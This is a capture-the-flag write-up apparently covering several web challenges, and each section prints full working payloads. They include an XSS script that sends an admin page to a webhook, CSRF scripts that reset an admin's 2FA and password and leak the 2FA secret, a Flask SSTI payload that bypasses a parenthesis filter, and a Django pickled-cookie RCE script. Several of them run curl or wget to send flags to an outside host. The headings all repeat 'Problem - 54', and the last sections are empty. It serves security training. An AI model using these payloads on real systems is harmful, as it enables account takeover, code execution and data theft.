I spent a good half an hour trying to figure out why my payload was not working. Then it finally clicked for me and realised I am a big doofus.

The issue with the above payload is the following part of the payload.

`y.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?yeet'+btoa(x.responseText))`

The character `+` before the `btoa` can also be the URL encoding for a space ( `' '` ), which was exactly what was happening and breaking my payloads syntax. URL encoding the `+` to `%2B` fixes the problem and the following payload works!

**`<script>**x=new XMLHttpRequest();x.onload=function(){y=new XMLHttpRequest();y.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?yeet'%2Bbtoa(x.responseText));y.send()};x.open('GET','http://localhost:5000/admin');x.send();**</script>**`


*noice noice*

Now all I needed to do was decode the base64 and grab the flag! I used [CyberChef](https://gchq.github.io/CyberChef/) since the text was in a URL safe format and I was lazy.


### Problem - 54 : (2FA_Bypass_CSRF)

Need to keep things secure? Try out our safe, the most secure in the world!

Solution :

> TL;DR: CSRF vulnerability in feedback page, force admin to reset the 2FA and exfiltrate this secret, then force admin to reset password. Login as admin to view the flag using the new 2FA set with your Google authenticator
> 

This challenge makes use of the Google Authenticator to setup a 2FA system. If we try to sign up with the username `admin`, the server would mention that it is already taken. So, let’s keep that in mind in case we need to conduct any form of account takeover.


Sign up for an account anyway. Setup the 2FA presented at this stage and click on the button to continue:


Sign into the created account and check the settings page:


Immediately, we see the that the Reset 2FA button does not require a valid 2FA token, nor the existing password. This means that if we could perform CSRF, then we can forcefully reset the 2FA for the victim.

Just below that reset 2FA field, we see a Feedback form with a textfield. The caption says “We would love to know what is on your mind”, which is a hint that client-side attack is likely the intended path forward. We attempt to inject a `<script>` tag which will redirect the user to our controlled page, to see if it is successful:

`<script>
    document.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017";
</script>`

Sure enough, we see the incoming request:


Since we can perform CSRF, let’s try to reset the 2FA of the visitor, which we are assuming to be the `admin` user. Inject the following into the feedback field:

```python
<!-- Step 1 - CSRF to reset 2FA, steal the new 2FA code -->
<script>
fetch("/reset2fa", {
    method: "POST",
    headers: {
        'Accept': 'application/json',
        'Content-Type': 'application/json'
    }
    }).then(res => {
        if (res.status != 200) {
            window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?status=failed";
        } else {
            res.json().then((json) => {
                window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?jsonUrl=" + json.url;
            });
        }
    });
</script>
```

This code is actually found on the challenge site itself, so we don’t have to code it from scratch. Upon a successful `/reset2fa` request, the new 2FA secret is sent in the response. We would then exfiltrate this secret to our controlled domain.


With this new secret, we can setup the 2FA on our Google Authenticator to takeover the 2FA authenticator for the `admin` user. So we set it up, and now we have to reset the `admin` password using the reset function.

To do so, we have to perform another CSRF attack, this time using the following payload (again the code is taken from the challenge site) to change the password to `iWanFlagz`:

```python
<!-- Step 2 - CSRF to reset password using the 2FA generated from our Authenticator -->
<script>
data = {
    "otp": "REPLACE_ME",
    "password": "iWanFlagz",
    "password2": "iWanFlagz"
}

fetch("/reset_password", {
    method: "POST",
    headers: {
        'Accept': 'application/json',
        'Content-Type': 'application/json'
    },
    body: JSON.stringify(data)
    }).then(res => {
    if (res.status != 200) {
        window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?status=failed";
    } else {
        window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?status=passwordChanged";
    }
});
</script>
```

We would have to include a valid OTP value this time, so remember to replace it before sending the CSRF payload over. Wait for the request to come in:


Now the password is changed to `iWanFlagz`. We are now able to login as the `admin` user with our 2FA and the new password, and view the flag:


Flag: `flag{96710ea6be916326f96de003c1cc97cb}`

### Problem - 54 (Flask SSTI):

Deafcon 2022 is finally here! Make sure you don't miss it.

Solution :

> Flask SSTI with standard parenthesis blacklisted (), use the full-width variant instead （）.
> 

Visiting the site, it allows us to generate a PDF using 2 input parameters (`name` and `email`):


Attempting to inject a SSTI payload `{{191*7}}` in the `email` field revealed that SSTI is possible:


> The name field only accepted [a-zA-Z0-9_ ] so we will be injecting via the email field.
> 

Checking for any other blacklisted characters, we see that parenthesis is denied:


So let’s try it out with a full-width bracket (url-encoded values `%EF%BC%88` and `%EF%BC%89`):


Attempting to inject the SSTI payload to retrieve all loaded subclasses `{{''.__class__.__mro__[1].__subclasses__（）}}`:


Shows that injection was successful and we are now able to find the index of `<class 'subprocess.Popen' >`, which was found at index 429. With access to `subprocess.Popen`, we are able to achieve RCE using the following payload in the `email` field:

`"{{''.__class__.__mro__[1].__subclasses__（）[429]（['cat flag.txt|xargs -I {} curl https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?flag={}'],shell=True）}}"@b.com`

which reads the flag and sends it to our controlled domain:


Flag: ` flag{001a305ac5ab4b4ea995e5719ab10104}`

### Problem - 54 :

Have your say! Poller is the place where all the important infosec questions are asked.

Solution :

> TL;DR: Django Pickled Cookie Deserialization RCE
> 


Visiting the page, it looks pretty static and if we examine the HTML source, we see a comment pointing to what appears to be the GitHub repository for this challenge:


Once we log into the website, it looks hardcoded and no dynamic input is really received. It feels like a deadend once you have tried the usual low-hanging fruits like IDOR.


So let’s look at the GitHub repo. Examining the commit history, we see an interesting commit title “Added auth templates and rotated SECRET_KEY”:


Examining it, we see that the `SECRET_KEY` used in the Django application has been changed away:


From our past experiences, this is thus far looking like a Django cookie deserialization RCE challenge. In this case, we would need to obtain this `SECRET_KEY` used in the Django process, then we can generate a cookie such that when it is deserialized, it would execute our specified code.

But first, we would have to find the new `SECRET_KEY`, which appears to be stored in the environment (.env file). If we look at the commit just after this one (“Added username and login/logout buttons to navbar”), we see that the `SECRET_KEY` has been leaked from hte `.env copy` file:


Now that we have the `SECRET_KEY`, we can use the following exploit script to generate a serialized cookie that contains the code we want to execute:

`import subprocess
import pickle
from django.core import signing
from django.contrib.sessions.serializers import PickleSerializer

SECRET_KEY = '77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!'

class Exploit(object):
  def __reduce__(self):
    return (subprocess.Popen, (
      ("cat flag.txt | xargs -I {{}} wget https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?flag={{}}"),
      0, # Bufsize
      None, # exec
      None, #stdin
      None, #stdout
      None, #stderr
      None, #preexec
      False, #close_fds
      True, # shell
      ))

print(signing.dumps(Exploit(),
    key=SECRET_KEY,
    salt='django.contrib.sessions.backends.signed_cookies',
    serializer=PickleSerializer,
    compress=True))`

Running the script to generate the cookie:

`$ python3 cookie.py 
.eJxrYJ3axwABPVzFpUkFRfnJqcXFU3pYA_ILUvOmTJ6i0ZOanFiikJaTmK5XUlGiUKNQkViUXqyg66lQXV1bq1CenlqikFFSUlBspa9fnpqUkZ-frVecWZKqn2qcbJ6YYpqmm2iWlqxrYmJuqWuRaGSim5xommRiamxuZmBobg8y1xZk0BRvBj8Q6OwomRI0RQ8Adg4zXg:1nl41C:Ozn-CsUev88lhp5gtmynDvXJd0M`

Replacing the cookie and refreshing the page should result in us getting a callback on our controlled domain, containing the flag:


Flag: `flag{a6b902e045b669148b5e92f771a68d39}`

### Problem - 54 :

Solution :

### Problem - 54 :

Solution :